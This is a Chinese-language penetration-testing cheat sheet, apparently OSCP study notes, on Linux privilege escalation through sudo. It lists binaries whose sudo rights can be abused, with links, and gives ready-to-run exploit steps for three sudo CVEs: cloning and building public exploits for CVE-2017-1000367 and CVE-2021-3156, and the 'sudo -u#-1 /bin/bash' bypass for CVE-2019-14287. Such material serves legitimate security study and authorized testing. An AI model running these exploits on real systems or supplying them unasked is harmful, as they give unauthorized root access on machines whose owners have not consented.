 ﻿# Linux  sudo 滥用和 sudo漏洞提权

---

## Table of Contents
 * [sudo 滥用](#sudo-滥用)
 * [sudo 漏洞](#sudo-漏洞)
  * [CVE-2017-1000367](#CVE-2017-1000367)
  * [CVE-2019-14287](#CVE-2019-14287)
  * [CVE-2021-3156](#CVE-2021-3156)

---
# [](#sudo-滥用) sudo 滥用
已知的可用来sudo滥用提权的`linux`可执行文件列表

| 命令   | 命令     | 命令       | 命令      | 命令         | 命令        | 命令    | 
|--------|----------|------------|-----------|--------------|-------------|---------|
| [awk](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/usod/Details/awk.md)| [expect](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/usod/Details/expect.md) | [flock](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/usod/Details/flock.md)| [ftp](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/usod/Details/ftp.md)| [ionice](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/usod/Details/ionice.md)| [less](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/usod/Details/less-more.md)|[more](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/usod/Details/less-more.md)|
|[man](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/usod/Details/man.md)| [rpm](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/usod/Details/rpm.md)| [setarch](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/usod/Details/setarch.md)| [stdbuf](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/usod/Details/stdbuf.md)| [tcpdump](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/usod/Details/tcpdump.md)| [xargs](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/usod/Details/xargs.md)|

---
# [](#sudo-漏洞) sudo 漏洞
* [](CVE-2017-1000367)CVE-2017-1000367
这个项目指定了通过/usr/bin/sum来sudo提权，请根据自己的sudo情况修改文件名
```
git clone https://github.com/c0d3z3r0/sudo-CVE-2017-1000367.git
cd sudo-CVE-2017-1000367
gcc -o sudopwn sudopwn.c -lutil
./sudopwn
```
* [](CVE-2019-14287 )CVE-2019-14287
 
```
$ sudo -u#-1 /bin/bash
或者
$ sudo -u#4294967295 /bin/bash
```

 * [](CVE-2021-3156)CVE-2021-3156
基于堆的缓冲区溢出漏洞
受影响版本
Sudo 1.8.2 - 1.8.31p2
Sudo 1.9.0 - 1.9.5p1
```
git clone https://github.com/blasty/CVE-2021-3156.git
make
./sudo-hax-me-a-sandwich 0
```
